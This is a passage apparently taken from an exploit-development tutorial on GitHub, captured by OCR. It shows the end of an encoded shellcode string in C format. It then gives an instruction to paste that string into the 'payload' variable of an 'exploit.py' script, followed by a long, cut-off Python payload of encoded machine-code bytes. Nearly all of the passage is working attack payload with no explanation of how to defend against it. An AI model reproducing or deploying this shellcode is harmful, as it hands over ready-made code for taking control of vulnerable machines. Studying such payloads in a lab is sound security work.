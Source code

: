 "\xe9\xd0\x12\x77\x83\x2b\xf5\x72\x5e\x1f\x30\xeb\x5c\x5f"

"\x2b\xb7\xe9\xb9\x21\x57\xbc\x12\xde\xce\xe5\xe8\x7f\x0e"

"\x30\x95\x40\x84\xb7\x6a\x0e\x6d\xbd\x78\xe7\x9d\x88\x22"

"\xae\xa2\x26\x4a\x2c\x30\xad\x8a\x3b\x29\x7a\xdd\x6c\x9f"

"\x73\x8b\x80\x86\x2d\xa9\x58\x5e\x15\x69\x87\xa3\x98\x70"

"\x4a\x9f\xbe\x62\x92\x20\xfb\xd6\x4a\x77\x55\x80\x2c\x21"

"\x17\x7a\xe7\x9e\xf1\xea\x7e\xed\xc1\x6c\x7f\x38\xb4\x90"

"\xce\x95\x81\xaf\xff\x71\x06\xc8\x1d\xe2\xe9\x03\xa6\x02"

"\x08\x81\xd3\xaa\x95\x40\x5e\xb7\x25\xbf\x9d\xce\xa5\x35"

"\x5e\x35\xb5\x3c\x5b\x71\x71\xad\x11\xea\x14\xd1\x86\x0b"

"\x3d";

* Copy generated C code string into "payload" variable of "exploit.py" script enclosed by brackets.

payload = ("\xb8\xe8\xa3\x7a\x51\xd9\xc9\xd9\x74\x24\xf4\x5f\x33\xc9"

"\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\xaf\xad\x98\xa4\xd3"

"\x5a\xde\x47\x2b\x9b\xbf\xce\xce\xaa\xff\xb5\x9b\x9d\xcf"

"\xbe\xc9\x11\xbb\x93\xf9\xa2\xc9\x3b\x0e\x02\x67\x1a\x21"

"\x93\xd4\x5e\x20\x17\x27\xb3\x82\x26\xe8\xc6\xc3\x6f\x15"

"\x2a\x91\x38\x51\x99\x05\x4c\x2f\x22\xae\x1e\xa1\x22\x53"

"\xd6\xc0\x03\xc2\x6c\x9b\x83\xe5\xa1\x97\x8d\xfd\xa6\x92"

"\x44\x76\x1c\x68\x57\x5e\x6c\x91\xf4\x9f\x40\x60\x04\xd8"

"\x67\x9b\x73\x10\x94\x26\x84\xe7\xe6\xfc\x01\xf3\x41\x76"

"\xb1\xdf\x70\x5b\x24\x94\x7f\x10\x22\xf2\x63\xa7\xe7\x89"

"\x98\x2c\x06\x5d\x29\x76\x2d\x79\x71\x2c\x4c\xd8\xdf\x83"

"\x71\x3a\x80\x7c\xd4\x31\x2d\x68\x65\x18\x3a\x5d\x44\xa2"

"\xba\xc9\xdf\xd1\x88\x56\x74\x7d\xa1\x1f\x52\x7a\xc6\x35"

"\x22\x14\x39\xb6\x53\x3d\xfe\xe2\x03\x55\xd7\x8a\xcf\xa5"

"\xd8\x5e\x5f\xf5\x76\x31\x20\xa5\x36\xe1\xc8\xaf\xb8\xde"

"\xe9\xd0\x12\x77\x83\x2b\xf5\x72\x5e\x1f\x30\xeb\x5c\x5f"

"\x2b\xb7\xe9\xb9\x21\x57\xbc\x12\xde\xce\xe5\xe8\x7f\x0e"

"\x30\x95\x40\x84\xb7\x6a\x0e\x6d\xbd\x78\xe7\x9d\x88\x22"

"\xae\xa2\x26\x4a\x2c\x30\xad\x8a\x3b\x29\x7a\xdd\x6c\x9f"

"\x73\x8b\x80\x86\x2d\xa9\x58\x5e\x15\x69\x87\xa3\x98\x70"

"\x4a\x9f\xbe\x62\x92\x20\xfb\xd6\x4a\x77\x55\x80\x2c\x21"
